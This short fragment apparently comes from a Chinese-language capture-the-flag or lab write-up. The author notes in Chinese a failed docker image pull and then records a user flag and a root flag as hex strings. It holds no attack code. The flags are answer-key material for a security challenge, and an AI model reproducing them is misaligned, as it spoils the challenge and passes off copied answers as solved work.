  
>我这个能访问github，但是他拉取没有docker image的我查查，实在不行就不打了。算了查了一圈，目前来看解决不了，等过几天再处理这个问题，但至少证明是怎么干，留一下flag
>


>
>userflag:fe12df45c64c362ec68abd9c27467e35
>
>rootflag:69c965c53f43ec68d503247796604b3d


